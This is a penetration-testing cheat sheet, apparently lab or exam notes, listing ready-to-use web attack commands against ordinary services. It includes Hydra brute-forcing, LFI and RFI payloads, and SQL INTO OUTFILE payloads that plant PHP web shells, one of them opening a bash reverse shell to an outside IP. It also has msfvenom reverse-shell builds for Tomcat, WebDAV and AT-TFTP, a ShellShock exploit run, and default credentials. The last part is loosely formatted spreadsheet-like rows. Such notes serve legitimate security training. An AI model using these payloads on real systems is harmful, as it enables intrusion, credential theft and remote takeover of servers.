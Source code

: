 ## Web Login form Brutefocing 
HTTP Hydra	
```sh
hydra -l admin -P /usr/share/wordlist/SecList/Passwords/10k_most_common.txt 192.168.88.162 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

## PUT method	
```sh
nmap -sV --script http-put --script-args http-put.url=’/test/meterpreter4444.php’,http-put.file=’/root/Exam0119/pwd/192.168.111.149/meterpreter4444.php’ -p 80 192.168.111.149
nmap –script http-methods –script-args http-methods.url-path=’/uploads’,http-methods.test-all -p 8585 172.28.128.3
```


## Starting Web Service
```sh
//Attacker usually uses this to transfer files
python -m SimpleHTTPServer 8080
python3 -m http.server 80"
```

## Nmap Scanning for Web Service(HTTP/HTTPS)
```sh
nmap -PN -p 22 --open -oG - 10.11.1.* | awk '$NF~/ssh/{print $2}'
nmap 10.11.1.* -p22,80 --open -oG - | awk '/22\/open.*80\/open/{print $2}'
nmap 10.11.1.* -p80,8080 --open -oG - | awk '/80\/open.*8080\/open/{print $2}'
nmap -p 80,8080 10.11.1.1-255
```
## - **Uniscan Scanning** <br />
```sh
uniscan.pl -u target -qweds
```

## - **HTTP Enumeration** <br />
```sh
httprint -h http://www.example.com -s signatures.txt
```

## - **Directory Traversal** <br />
To navigate and find any sub directories.
Dirbuster Wordlist : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```sh
dirb http://10.11.1.202 /usr/share/dirb/wordlists/vulns/iis.txt
gobuster -u http://10.11.1.133/ -w /usr/share/wordlists/dirb/common.txt -q -n -e
dirb http://10.11.1.133/index/sips/ /usr/share/dirb/wordlists/
./dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $targetip -e php"
//cf. https://github.com/maurosoria/dirsearch

//removing status code for 200,204,301,307,403; 
gobuster -s 200,204,301,307,403 -u http://192.168.88.168 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

## - **Nikto** <br />
```sh
nikto -h 192.168.88.132
nikto -h http(s)://[IP]:[PORT]/[DIRECTORY] 
nikto -C all -h http://10.11.1.72"
```


## - **LFI(Local File Inclusion)** <br />
lfisuite.py
eg. 
```sh
browse.php?file=php://filter/convert.base64-encode/resource=ini.php
browse.php?file=php://filter/convert.base64-encode/resource=browse.php
echo -n encodedstrings | base64 -d
browse.php?file=/etc/passwd
index.php?file=
```
If target has phpinfo.php, check out "file_uploads", see if appears as enabled(ON); if so, the target is vuln for LFI. 


## - **Squid** <br />
proxy scanner/http/squid_pivot_scanning
RHOST : Target
RANGE : Target
RPORT : Squid port 
```sh
msf auxiliary(scanner/http/squid_pivot_scanning) > run
[+] [192.168.88.155] 192.168.88.155 is alive but 21 is CLOSED
[+] [192.168.88.155] 192.168.88.155:80 seems OPEN
if the target uses squid proxy via 3128 port, use nikto with that proxy setting 
nikto -h 192.168.88.155 -useproxy http://192.168.88.155:3128"
```
## - **ShellShock** <br />
nikto scan results; shows shellshock on /cgi-bin; use 34900.py 
```sh
root@kali:~/Exam/Sicos1# python 34900.py payload=reverse rhost=192.168.88.155 lhost=192.168.88.157 lport=1234
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/status"
```

## - **MySQL** <br />
```sh
nmap -sV -Pn -vv –script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.0.0.1 -p 3306
```
MySQL login : ```sh mysql -h 192.168.88.152 -D wordpress -u root -p plbkac```
MySQL Spawning Reverse shell(linux) : ```union select ""<?php exec(\""/bin/bash -c \'bash -i >& /dev/tcp/159.203.242.172/1999 0>&1\'\"");"" INTO OUTFILE '/var/www/ecustomers/samshell4.php' ```

UPLOAD A FILE : 
```
' union select ""<?php file_put_contents(\""root\"", file_get_contents(\""http://attack.samsclass.info/root\"")); ?>"" INTO OUTFILE '/var/www/ecustomers/samget2.php' #
```
OPEN A PHP SHELL :
```
' union select ""<?php system($_REQUEST['cmd']); ?>"" INTO OUTFILE '/var/www/ecustomers/samshell.php' #
```


## - **Windows IIS** <br />
Getting Windows 0S and version details through Nikto / Nmap  Scanning. 

auxiliary/admin/http/iis_auth_bypass

## - **Tomcat** <br />
Default cred for Tomcat;"tomcat/tomcat"	 and check out /manager console by navigating to browsereg. http://10.11.1.209:8080/manager/html
You can upload reverse shell on manager consor ; msfvenom jsp or war file
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.37 LPORT=443 -f war > shell.war
jar -xvf shell.war
```
## - **Config files** <br />
PHP + DB cred files	
```sh
/etc/mysql/my.cnf 
/var/www/html/config.php
```
## - **WordPress** <br />
```sh
wpscan --url http://10.11.1.71/ -enumerate p
wpscan --url 10.0.2.4 --enumerate vp
wpscan --url https://192.168.88.152:12380/blogblog -enumerate u --disable-tls-checks
wpscan --url http://192.168.88.179/wordpress/ --wordlist /usr/share/wordlists/rockyou.txt
wpscan --url https://192.168.88.152:12380/blogblog/ --enumerate ap --disable-tls-checks
wpscan --url www.local.test --enumerate u --threads 50
```
ref : finding username & password(autoscript) : https://github.com/claudioviviani/bash-wordpress-xml-bruteforce

## - **PHPAdmin** <br />
http://*.*.*.*/phpmyadmin
db and password located @ /etc/phpmyadmin/config-db.php and default cred can be; (root/blank)(pma/blank)
You can also bruteforce by ```sh
hydra 10.10.10.43 -l admin -P /usr/share/dict/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!"```

upload malicious database as .php 
ref : http://hackingandsecurity.blogspot.com/2017/08/proj-12-exploiting-php-vulnerabilities.html
SQL-phpshellscript : 
(1)Once login, clilck SQL and ""Run SQL query/queries on server ""localhost"":"" and provide beblow sql-query to create (shell).php script.
Windows : SELECT ""<?php system($_GET['cmd']); ?>"" into outfile ""C:\\xampp\\htdocs\\shell.php""
Linux : SELECT ""<?php system($_GET['cmd']); ?>"" into outfile ""/var/www/html/shell.php""
(2) now visit http://192.168.1.101/DBlocation/shell.php?cmd=ipconfig
(3) if you wanna hav better shell; ?cmd=wget%20192.168.1.102/shell.php"
CURL | base encode/decode	"curl -s http://192.168.88.168/index.php
root@kali:~$echo jeff | base64
amVmZgo=
root@kali:~$echo -n VXNlcm5hbWU6 |base64 -d
Username:"
RFI	"https://github.com/3mrgnc3/LFIter2/blob/master/lfitr2.py
https://www.youtube.com/watch?v=rs4zEwONzzk
browse.php?file=http://10.11.0.42/index.html
browse.php?file=ftp://10.11.0.42/index.html
browse.php?expect://ls
gain a shell via phpinfo.php https://office.tuxcon.com/root/web-sec-payloads/src/commit/fd99da6c06e00a596becdcfc6d2efe50bad0f47c/File%20Inclusion%20-%20Path%20Traversal
phpinfolfi.py or https://github.com/D35m0nd142/Kadabra/blob/master/phpinfo.py
needs to update the shell and browse.php part etc. 
instruction : https://www.youtube.com/watch?v=rs4zEwONzzk"
Webdav 	"nmap -T4 -p80 --script=http-iis-webdav-vuln 10.11.1.229
cf. auxiliary : webdav_test
davtest -url http://10.11.1.229
[webhsell]msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.42 LPORT=443  -f asp > shells.asp 
[webhsell]/usr/share/webshells/asp/cmdasp.asp
cadaver http://10.11.x.x/webdav/
dav:> put shells.txt
Uploading shells.txt to `shells.txt':
dav:> copy shells.txt shells.asp;.txt"
ColdFusion	"Version check : http://example.com/CFIDE/adminapi/base.cfc?wsdl
LFI(passowrd file) : http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
(either - neo-security.xml and password.properties)
ref * https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
exploit/windows/http/coldfusion_fckeditor - only for 8.0.1"
XAMPP	cred(wampp/xampp)
RealVNC	"https://www.exploit-db.com/exploits/36932
Edit, BIND_ADDR into mine and BIND_PORT into 4444
root@kali:~/PWK-Lab/10.11.1.227$python RealVNC-exploit-36932.py 
[*] Please input an IP address to pwn: 10.11.1.227
[*] Hello From Server: RFB 003.008
Ctrl+Alt+Shift+Del will be vmware's ctrl+alt+del"
Drupal	cred(admin/admin)
Elastix	"cred(admin/admin) http://example.com/vtigercrm/ 
You might be able to upload shell in profile-photo."
SuirrelMail	"https://raw.githubusercontent.com/xl7dev/Exploit/master/SquirrelMail/SquirrelMail_RCE_exploit.sh
RFI : http://10.11.1.115/webmail/src/read_body.php?mailbox=/etc/passwd&passed_id=1&"
	
AT-TFTP 1.9 version	"https://github.com/brianwrf/cve-2006-6184
1.perl -e 'print """"\x81\xec\xac\x0d\x00\x00""""' > stackadj
2.msfvenom -p windows/shell/reverse_nonx_tcp LHOST=10.11.0.37 LPORT=443 R > payload
3.cat stackadj payload > shellcode
4. cat shellcode | msfvenom -e x86/shikata_ga_nai -b """"\x00"""" -a x86 --platform win -f python"
